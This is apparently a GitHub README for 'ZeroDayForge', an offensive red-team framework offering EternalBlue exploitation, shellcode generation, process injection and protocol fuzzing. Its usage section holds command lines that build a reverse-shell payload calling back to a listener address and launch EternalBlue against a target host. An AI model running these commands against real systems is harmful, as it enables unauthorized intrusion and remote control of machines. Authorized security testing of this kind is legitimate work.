

# ⚔️ ZeroDayForge


> 💀 **ZeroDayForge** is a modular red team framework for exploit development, protocol fuzzing, memory corruption research, and shellcode generation — built for professionals, researchers, and chaos engineers.

---

## 📸 Screenshot



---

## 🚀 Capabilities

- 🎯 **Protocol Fuzzing** (SMBv1, RDP, DNS)
- 💥 **EternalBlue Exploit Chain** for Windows targets
- 🧠 **Shellcode Generator** (x64 polymorphic, encrypted)
- 🧬 **Process Injection** (Direct Syscalls + Hollowing)
- 🛡️ **Shellcode Encryptors** (AES, ChaCha20, XOR fallback)
- 🧪 **Simulated Win32 Heap Manipulation**
- 🔍 **PoC Generator** with crash logging
- ✅ **Self-Test Suite** — verify tool integrity without a target

---

## 📦 Installation

```bash
git clone https://github.com/Aviral2642/ZeroDayForge.git
cd zerodayforge
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

---

## ⚙️ Usage

### 🔎 Run Self-Test (no target required)

```bash
python self_test.py
```

### 🔧 Generate Payload

```bash
python zerodayforge.py payload -t shellcode -o reverse.bin -l 10.10.0.1 -p 4444
```

### 💥 Exploit EternalBlue

```bash
python zerodayforge.py exploit -t 192.168.1.100:445 -e eternalblue
```

### 🔬 Fuzz Protocol

```bash
python zerodayforge.py fuzz -t 192.168.1.100:445 -p smb
```

---

## 🧠 Developer Mode

Enable debug logging:
```bash
python zerodayforge.py -d <subcommand>
```

---

## 📁 File Structure

```
.
├── core/               # Core framework (fuzzer, heap, syscall)
├── payloads/           # Shellcode, encryption, injection logic
├── protocols/          # Protocol-specific exploits (SMB, RDP, etc)
├── scripts/            # Shell script utilities
├── examples/           # Sample payload generators
├── zerodayforge.py     # Main CLI
├── self_test.py        # Local self-verification
├── requirements.txt
└── README.md
```

---

## 🔥 Credits & Tools Used

- [Impacket](https://github.com/fortra/impacket)
- [PyRDP](https://github.com/GoSecure/pyrdp)
- [Capstone & Keystone](http://www.keystone-engine.org/)
- Offensive Security inspiration

---

## ⚠️ Disclaimer

This tool is provided for **educational and authorized red teaming use only**.
**Do not use it on networks you don’t own or have permission to test.**
You've been warned. ⚔️

---

> ZeroDayForge — *Shaping Exploits. Forging Mayhem.*
